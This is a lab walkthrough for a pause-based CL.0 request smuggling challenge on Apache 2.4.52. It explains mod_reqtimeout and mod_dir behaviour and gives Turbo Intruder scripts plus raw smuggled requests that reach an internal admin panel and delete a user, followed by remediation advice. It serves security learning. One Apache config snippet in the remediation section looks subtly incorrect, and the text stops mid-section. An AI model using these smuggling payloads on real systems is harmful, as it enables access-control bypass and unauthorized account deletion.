










## Challenge Overview
* **Challenge name**: Server-side pause-based request smuggling
* **Category**: HTTP Request Smuggling
* **Level**: Expert
* **Objective**: Identify a pause-based CL.0 desync vector, smuggle a request to the back-end to the admin panel at `/admin`, then delete the user `carlos`.

---

## 1. Fundamental Concepts

### 1.1 Persistent Connections (HTTP Keep-Alive) and Multiplexed Backend Sockets
In modern web architectures, a front-end reverse proxy (e.g., Cloudflare, AWS ALB, Nginx, HAProxy) sits between clients and back-end application servers. To reduce TLS handshake latency and TCP connection overhead, the front-end establishes persistent, long-lived TCP connections (HTTP Keep-Alive) to the back-end. 

Multiple sequential requests from different external clients are serialized and streamed over the same shared back-end TCP socket. Under normal circumstances:
* The front-end reads a request from the client and streams it to the back-end.
* The back-end determines where a request ends based on the declared `Content-Length` or chunked transfer stream.
* Once the back-end reads exactly the declared number of bytes, it processes the request, returns the response, and waits for the next request on that persistent socket.

```text
[ External Client ]  ---> (HTTP/2 or HTTP/1.1) ---> [ Front-End Proxy ]
                                                            |
                                                     (Persistent TCP Socket)
                                                            v
                                                    [ Back-End: Apache 2.4.52 ]
```

### 1.2 The Apache HTTP Server Timeout Model: `mod_reqtimeout`
The Apache HTTP Server utilizes an official module named `mod_reqtimeout` (enabled by default in modern distributions) to mitigate Slowloris Denial of Service (DoS) attacks. This module controls how long the server will wait for incoming data via the `RequestReadTimeout` directive:

```apache
RequestReadTimeout header=20-40,MinRate=500 body=60,MinRate=500
```
* **`header` timeout:** The maximum time allowed for the client to send the HTTP request headers.
* **`body` timeout:** The maximum time allowed for the client to transmit the request body (default is typically 60 seconds). If the data transfer rate drops below the threshold or pauses entirely for more than 60 seconds, a timeout condition is triggered.

### 1.3 Directory Redirection Mechanics (`mod_dir`)
When a client submits an HTTP request to a directory path without a trailing slash (for example, `/resources` instead of `/resources/`), Apache's directory index module (`mod_dir`) intervenes:
1. The server determines that `/resources` corresponds to a physical or logical directory.
2. To ensure relative URLs resolve properly in browsers, Apache immediately issues an HTTP `301 Moved Permanently` or `302 Found` redirection pointing to `/resources/`.
3. **The Architectural Flaw:** If the request is a `POST` request with an unread body (or a declared `Content-Length`), Apache produces the redirect response **without waiting to consume the full request body**. 

### 1.4 The Root Cause of Pause-Based Desynchronization
Under RFC 9112 §9.3, if a server sends a response before consuming the entire request message body, it **MUST either read and discard the remainder of the request body or close the connection**. 

In vulnerable versions of Apache (including 2.4.52), when a client pauses during the transmission of a `POST` body to a redirecting endpoint:
1. The front-end proxy has already forwarded the outer headers and committed the socket.
2. The client pauses sending the body for $> 60$ seconds (e.g., 61,000 milliseconds).
3. Apache reaches its `RequestReadTimeout body=60` threshold. Instead of sending a `408 Request Timeout` and tearing down the TCP socket (`TCP RST` or `FIN`), Apache sends the `302 Found` redirect response and **leaves the Keep-Alive TCP connection alive**.
4. When the client finally resumes transmitting the remaining bytes, the front-end proxy simply routes them through the existing open socket.
5. Apache, having finished the first transaction, reads these resumed bytes and treats them as the **beginning of a brand-new, pipelined HTTP request**!

---

## 2. Attack Model & Architecture

### 2.1 System Architecture & Trust Boundaries
The target environment exhibits the following operational structure:
* **Front-End Proxy:** Listens externally, supports HTTP/2 and HTTP/1.1, validates syntax, streams payloads byte-by-byte to the back-end. Blocks external requests targeting `/admin` based on the external `Host` header.
* **Back-End Server (Apache 2.4.52):** Connected over an internal network. Restricts access to `/admin` solely to requests with `Host: localhost`. Enforces CSRF validation for all state-changing actions.

```text
                    [ Attacker ]
                         |
                         | (1) Transmit outer POST /resources headers
                         | (2) PAUSE STREAM FOR 61 SECONDS
                         | (3) Resume stream: POST /admin/delete/
                         v
              [ Front-End Reverse Proxy ]
                         |
                         | Byte-by-byte streaming over persistent TCP socket
                         v
              [ Back-End: Apache 2.4.52 ]
               +------------------------------------------------------+
               | T=0s: Receives POST /resources headers                |
               | T=0s: Mod_dir triggers 302 Found redirect            |
               | T=60s: RequestReadTimeout fires (body timeout)        |
               | T=60s: Transmits 302 response; KEEPS SOCKET OPEN!    |
               | T=61s: Receives resumed bytes: POST /admin/delete/   |
               | T=61s: Treats resumed bytes as NEW PIPELINED REQUEST |
               |        Host: localhost -> ACCESS GRANTED!           |
               +------------------------------------------------------+
```

### 2.2 Attack Workflow & Data Flow Diagram

```text
========================================================================================
SERVER-SIDE PAUSE-BASED CL.0 REQUEST SMUGGLING ATTACK WORKFLOW
========================================================================================
[Attacker (Turbo Intruder)]
    │
    │ (1) Connects & begins streaming outer request headers:
    │     POST /resources HTTP/1.1\r\nContent-Length: 221\r\n\r\n
    ▼
[Front-End Reverse Proxy]
    │ Streams outer headers byte-by-byte across persistent backend TCP socket
    ▼
[Back-End Server (Apache 2.4.52)]
    │ T=0s: Receives POST /resources headers. mod_dir prepares 302 redirect.
    │       Waits for 221 bytes of body...
    ▼
[Attacker (Turbo Intruder)]
    │ (2) THE 61-SECOND PAUSE: Halts socket transmission for 61,000ms!
    ▼
[Back-End Server (Apache 2.4.52)]
    │ T=60s: RequestReadTimeout (body=60) threshold expires!
    │ Emits HTTP/1.1 302 Found (Location: /resources/) without reading body.
    │ CRITICAL FLAW: Leaves the Keep-Alive TCP socket open!
    ▼
[Front-End Reverse Proxy]
    │ Receives 302 Found response, forwards to Attacker (Row 0 in Turbo Intruder)
    ▼
[Attacker (Turbo Intruder)]
    │ T=61s: Wakes up and resumes socket transmission:
    │        POST /admin/delete/ HTTP/1.1\r\nHost: localhost...csrf=...&username=carlos
    ▼
[Front-End Reverse Proxy]
    │ Routes resumed bytes across the existing, still-open backend socket
    ▼
[Back-End Server (Apache 2.4.52)]
    │ Reads resumed bytes from socket buffer as a BRAND-NEW PIPELINED REQUEST!
    │ Evaluates Host: localhost -> Admin Access Granted!
    │ Validates CSRF token & deletes user carlos!
    │ Emits HTTP/1.1 302 Found (Location: /) (Row 1 in Turbo Intruder)
    ▼
[Result: User Carlos Deleted & Lab Solved!]
```

### 2.3 Technical Traps & Expert Debugging Analysis

Executing this attack in production or advanced lab environments requires navigating several low-level network and tooling pitfalls:

#### 1. Turbo Intruder `Engine.AUTO` vs `Engine.THREADED` Trap
Turbo Intruder defaults to `Engine.AUTO` when scripting via Jython. However, `Engine.AUTO` dynamically manages socket pools and concurrency. If you attempt to override low-level socket parameters (such as `concurrentConnections=1`), Turbo Intruder throws a fatal runtime exception:
```python
Exception: Engine.AUTO owns concurrentConnections and requestsPerConnection
```
**Remediation:** You must explicitly enforce `engine=Engine.THREADED` in the `RequestEngine` constructor to gain direct, deterministic control over the raw TCP socket.

#### 2. The "Double PauseMarker" Trap & Why `pauseMarker` MUST Include `Content-Length`
In Turbo Intruder, `pauseMarker` operates directly at the socket byte-streaming layer. As Turbo Intruder pumps bytes down the TCP socket, it continuously scans the outgoing byte stream for substrings matching the entries in `pauseMarker`. When a match occurs, it halts socket writes and sleeps for `pauseTime` (61,000 ms):
```python
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
```

**Why a generic `\r\n\r\n` fails catastrophically in the exploit phase:**
* In standard HTTP/1.1 syntax, the sequence `\r\n\r\n` (CRLF CRLF) represents the empty line that signals the **end of headers** and the transition to the request body.
* When executing a smuggled `POST` request (such as `POST /admin/delete/`), your entire payload inherently contains **TWO** distinct header-to-body delimiters:
  1. **Delimiter 1 (Outer Request):** Immediately following the outer headers (`POST /resources ... \r\n\r\n`).
  2. **Delimiter 2 (Inner Smuggled Request):** Immediately following the inner headers (`POST /admin/delete/ ... \r\n\r\n`), right before `csrf=...`.

If you configure `pauseMarker=['\r\n\r\n']`:
1. Turbo Intruder streams the outer headers, hits Delimiter 1, and sleeps for 61 seconds. This successfully triggers Apache's `RequestReadTimeout` on `/resources`.
2. Turbo Intruder wakes up and begins streaming the inner request: `POST /admin/delete/ HTTP/1.1\r\nHost: localhost...`.
3. Turbo Intruder reaches Delimiter 2 (`\r\n\r\n` after the inner headers) and **pauses for another 61 seconds** before sending the body (`csrf=...`)!
4. **The Failure:** Apache receives the inner `POST` headers, waits for the body, but because the client is frozen in a second 61-second sleep, Apache's timeout fires *again* or the socket connection is torn down. The body `csrf=...` is completely severed from its headers, causing the deletion action to fail.

**The Solution: Anchor `pauseMarker` to the Outer `Content-Length`:**
```python
pauseMarker=['Content-Length: 221\r\n\r\n']
```
* The outer request specifies: `Content-Length: 221\r\n\r\n`.
* The inner smuggled request specifies: `Content-Length: 53\r\n\r\n`.
* By embedding the exact outer length into the marker (`Content-Length: 221\r\n\r\n`), Turbo Intruder matches **strictly once** at the outer boundary. It pauses 61 seconds, wakes up, and then streams the inner `POST` headers AND its body (`csrf=...`) in one continuous, uninterrupted burst!

> [!WARNING]
> **Exact String Matching Requirement:** Turbo Intruder performs raw byte string matching. If the request header states `Content-Length: 221` but the script specifies `Content-Length: 175\r\n\r\n`, no match will occur. Turbo Intruder will stream the entire payload with zero delay, failing to trigger the desynchronization.

#### 3. CSRF Token and Session Cookie Dependency
Smuggling a `POST` request to `/admin/delete` requires bypassing both access controls and CSRF protections. 
* Many security testers extract the CSRF token from the admin panel and paste it into the inner request body, but forget that CSRF tokens are **cryptographically tied to the user's session**.
* If the inner request does not carry the `Cookie: session=...` header, Apache generates a brand-new, anonymous session upon processing the request, resulting in an immediate rejection:
```http
HTTP/1.1 400 Bad Request
"Invalid CSRF token"
```
* **Remediation:** The inner smuggled request **must include the same session cookie** from which the CSRF token was harvested.

---

## 3. Step-by-Step Exploitation (PoC)

### 3.1. Phase 1: Reconnaissance & Server Fingerprinting
We begin by mapping the target application and fingerprinting the back-end web server. A baseline request to the application root `/` reveals the back-end server software via the `Server` header:



Next, we identify directory redirection behavior. By requesting `/resource` without a trailing slash, Apache triggers `mod_dir` and responds with an HTTP `302 Found` redirection pointing to `/resource/`:



---

### 3.2. Phase 2: Configuring Turbo Intruder for Precision Timing
Standard Burp Repeater cannot pause mid-stream at arbitrary millisecond intervals. We route the request to **Turbo Intruder**:



In Turbo Intruder, we configure a script using `Engine.THREADED` to avoid the `Engine.AUTO` concurrency conflict. We construct a `POST /resources` request with an inner `GET /admin/` request embedded in the body:



```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
    # Pause 61 seconds immediately after the outer header delimiter
    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

#### Detailed Breakdown of the Turbo Intruder Script:
* **`def queueRequests(target, wordlists)`**: The primary entry-point function invoked by Turbo Intruder to schedule and dispatch network requests.
* **`endpoint=target.endpoint`**: Automatically binds the socket target (scheme, host, and port) to the target application extracted from Burp Repeater.
* **`concurrentConnections=1`**: **Critical parameter.** Restricts Turbo Intruder to establishing strictly **one single TCP connection**. This guarantees that all bytes are transmitted over the exact same socket, preventing the tool from spawning secondary connections that would mask or disrupt socket desynchronization.
* **`requestsPerConnection=500`**: Configures the Keep-Alive pool to permit up to 500 sequential request-response cycles across this single socket without premature client-side teardown.
* **`pipeline=False`**: Disables HTTP pipelining on the client side, ensuring standard serialized request/response handling.
* **`engine=Engine.THREADED`**: Explicitly selects the classic multi-threaded socket engine. As analyzed in Section 2.3, the default `Engine.AUTO` manages socket pools dynamically and throws a runtime exception if `concurrentConnections=1` is specified manually.
* **`pauseMarker=['\r\n\r\n']`**: Directs the low-level byte-streaming engine to inspect the outgoing data stream. When it detects the empty line sequence (`\r\n\r\n`) indicating the end of the outer request headers, it halts socket transmission immediately before writing the request body.
* **`pauseTime=61000`**: Freezes socket transmission for exactly **61,000 milliseconds (61 seconds)**. Because Apache's `RequestReadTimeout body=60` directive terminates body reads after 60 seconds, this 61-second delay forces Apache's body timeout to expire, triggering the desynchronization flaw while keeping the socket open.
* **`engine.queue(target.req)`**: Queues the follow-up request to read and display the subsequent response arriving on the same socket stream.
* **`def handleResponse(req, interesting)` & `table.add(req)`**: Callback executed whenever a response is received from the server. `table.add(req)` displays each completed HTTP transaction as a row in the Turbo Intruder results table for inspection.

---

### 3.3. Phase 3: Probing for Desynchronization & Access Control Verification
Upon executing the script, Turbo Intruder sends the outer headers, sleeps for 61 seconds, and then releases the rest of the stream. Looking at the results:
* **Row 0:** Returns `302 Found` (TTFB ~ 61,821 ms) — this is the response to `POST /resources`.
* **Row 1:** Returns `401 Unauthorized` (TTFB ~ 261 ms)!



The response body of Row 1 explicitly states:
```html
<header class="notification-header">
Admin interface only available to local users
</header>
```

**Key Takeaway:** This confirms that the back-end treated the resumed body bytes as a distinct, pipelined HTTP request. However, because our smuggled request contained `Host: 0ab9...web-security-academy.net`, the administrative access control filter denied access.

---

### 3.4. Phase 4: Bypassing Access Control & Harvesting CSRF Token
To bypass the access control check, we modify the smuggled request's `Host` header to `localhost`:



The raw request structure:
```http
POST /resources HTTP/1.1
Host: 0ab9005303e83735809f535200df00ad.web-security-academy.net
Cookie: session=hScN8b8ewFIFZ4InRNFAmXQT3hh0RhuL
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

GET /admin/ HTTP/1.1
Host: localhost

```

Running the attack yields complete success for the admin panel access:
* **Row 0:** `302 Found`
* **Row 1:** `200 OK`! The response body exposes the complete HTML of the Admin interface!



From the rendered HTML, we extract the critical parameters required to delete user `carlos`:
* **Action URL:** `/admin/delete` (or `/admin/delete/`)
* **CSRF Token:** `F5xKF4HqSKZBf6YiZH9ZpiiAP6sAmBMj`
* **Target Username:** `carlos`

---

### 3.5. Phase 5: Weaponizing the Payload & Overcoming State Traps
Now we assemble the final deletion payload. To avoid the **Double PauseMarker Trap** and ensure our session is maintained:
1. The inner body is: `csrf=F5xKF4HqSKZBf6YiZH9ZpiiAP6sAmBMj&username=carlos` (length: **53 bytes**).
2. The inner headers specify `POST /admin/delete/ HTTP/1.1`, `Host: localhost`, `Content-Length: 53`, and crucially, `Cookie: session=hScN8b8ewFIFZ4InRNFAmXQT3hh0RhuL`.
3. The outer `Content-Length` is calculated as **221 bytes**.
4. In the Python script, we specify `pauseMarker=['Content-Length: 221\r\n\r\n']` to pause exclusively after the outer request headers.



```http
POST /resources HTTP/1.1
Host: 0ab9005303e83735809f535200df00ad.web-security-academy.net
Cookie: session=hScN8b8ewFIFZ4InRNFAmXQT3hh0RhuL
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 221

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Cookie: session=hScN8b8ewFIFZ4InRNFAmXQT3hh0RhuL

csrf=F5xKF4HqSKZBf6YiZH9ZpiiAP6sAmBMj&username=carlos
```

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
    # Pause 61s specifically after outer header block
    engine.queue(target.req, pauseMarker=['Content-Length: 221\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

---

### 3.6. Phase 6: Execution and Verification
We trigger the attack. After 61 seconds:
* **Row 0:** `302 Found` (redirect to `/resources/`)
* **Row 1:** `HTTP/1.1 302 Found` with `Location: /`! This confirms the back-end executed the deletion of user `carlos` and redirected to the home page:



Navigating back to the lab dashboard confirms the target objective is solved:



---

## 4. Remediation & Defense Strategies

### 4.1 Web Server Hardening (Apache HTTP Server)

#### 1. Upgrade Apache HTTP Server
Ensure all instances of Apache HTTP Server are upgraded beyond vulnerable versions. Modern releases enforce RFC 9112 §9.3 compliance by immediately tearing down persistent TCP sockets if a response is generated before the full declared request body is received.

#### 2. Enforce Connection Closure on Redirects
Configure Apache to send `Connection: close` on any 3xx redirect response where request bodies might remain unconsumed. This prevents socket reuse:
```apache
<IfModule mod_headers.c>
    # Force connection close on directory redirects
    RewriteEngine On
    RewriteCond %{REQUEST_FILENAME} -d
    RewriteCond %{REQUEST_URI} !/$
    RewriteRule ^(.*)$ $1/ [R=301,L]
    Header always set Connection "close" env=REDIRECT_STATUS
</IfModule>
```

#### 3. Tune `RequestReadTimeout` to Drop Sockets on Violation
Ensure that timeout expirations within `mod_reqtimeout` trigger hard TCP resets (`TCP RST`) rather than leaving sockets in half-read Keep-Alive states.

### 4.2 Reverse Proxy Configuration & Protocol Normalization

#### 1. Disable Backend TCP Connection Reuse Across Unauthenticated Streams
Reverse proxies should never blindly pipeline unconsumed requests from untrusted clients across shared backend TCP connections. Configure connection pooling with strict isolation or short-lived backend reuse lifetimes.

#### 2. Implement End-to-End HTTP/2 or HTTP/3
Where possible, deploy end-to-end HTTP/2 or HTTP/3 without protocol downgrading. In pure HTTP/2 architectures:
* Framing is binary, and length is explicitly encoded per frame header.
* Request multiplexing occurs via independent stream IDs rather than serialized raw TCP byte streams, completely neutralizing raw stream-boundary desynchronization.

#### 3. Strict Request Validation
